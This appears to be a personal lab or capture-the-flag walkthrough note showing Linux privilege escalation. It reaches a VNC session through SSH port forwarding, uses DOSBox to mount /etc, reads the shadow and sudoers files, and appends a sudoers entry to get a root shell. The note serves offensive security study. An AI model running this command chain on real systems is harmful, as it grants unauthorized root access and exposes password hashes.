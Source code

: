 ```yaml
---
category: Uncategorized
tags: []
---
```

#### VNC to DosBox

```bash - linux
netstat -tulpn
```

Look for VNC service:
![[Pasted image 20220404105411.png]]

We see VNC on port 5901.  Let's use port forwarding to access.
Kali:
```bash - kali
ssh -L 5901:localhost:5901 commander@$TARGET
```

Kali:
```bash - kali
vncviewer localhost:5901
```

![[Pasted image 20220404105810.png]]

Now we can open terminal in vncviewer and run dosbox:
```bash - target
dosbox
```

Let's mount the /etc directory to C:

```dosbox - target
mount C /etc
```

Change to the C drive:
```dosbox - target
C:
```

Check to see if you can read a high privileged file (shadow):
```dosbox - target
type shadow
```

```dosbox - target
type sudoers
```

Let's put our current user into the sudoers file:
```dosbox - target
echo <USER> ALL=(ALL) ALL >> sudoers
```

![[Pasted image 20220404120322.png]]

Now back in target terminal:
```bash - target
sudo -i
```

![[Pasted image 20220404120222.png]]

